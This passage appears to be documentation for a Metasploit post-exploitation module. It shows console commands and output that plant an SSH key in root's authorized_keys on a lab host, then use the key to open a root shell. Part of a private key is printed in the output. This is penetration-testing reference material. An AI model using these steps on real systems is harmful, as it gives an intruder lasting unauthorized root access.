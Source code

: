 Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set session 1
    session => 1
    msf post(sshkey_persistence) > set verbose true
    verbose => true
    msf post(sshkey_persistence) > set username root
    username => root
    msf post(sshkey_persistence) > exploit
    
    [*] Checking SSH Permissions
    [+] Pubkey set to yes
    [*] Authorized Keys File: .ssh/authorized_keys
    [*] Finding .ssh directories
    [+] Storing new private key as /root/.msf4/loot/20160619221108_default_192.168.2.130_id_rsa_441694.txt
    [*] Creating /root/.ssh/authorized_keys
    [*] Max line length is 131073
    [*] Writing 380 bytes in 1 chunks of 1461 bytes (octal-encoded), using printf
    [+] Key Added
    [!] No active DB -- Credential data will not be saved!
    [*] Post module execution completed

Verify our access works

    msf post(sshkey_persistence) > use auxiliary/scanner/ssh/ssh_login_pubkey 
    msf auxiliary(ssh_login_pubkey) > set rhosts 192.168.2.130
    rhosts => 192.168.2.130
    msf auxiliary(ssh_login_pubkey) > set key_path /root/.msf4/loot/
    key_path => /root/.msf4/loot/
    msf auxiliary(ssh_login_pubkey) > set username root
    username => root
    msf auxiliary(ssh_login_pubkey) > run
    
    [*] 192.168.2.130:22 SSH - Testing Cleartext Keys
    [*] SSH - Testing 4 keys from /root/.msf4/loot
    [+] SSH - Success: 'root:-----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAqBC5XwkPOAtFn8zCFWIs3IIzUUfMvJPWxQQl1Porf8GiSs2B
    ...snip...
    6aj815iPJp9X5vnIR6mRdTJP9UQraPe6jneicx8QfncfoqJbA2v7
    -----END RSA PRIVATE KEY-----
    ' 'uid=0(root) gid=0(wheel) groups=0(wheel),5(operator) FreeBSD freebsd9 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64 '
    [*] Command shell session 2 opened (192.168.2.229:32991 -> 192.168.2.130:22) at 2016-06-19 22:14:16 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed


### Fedora 20 (root)

Get Initial Access
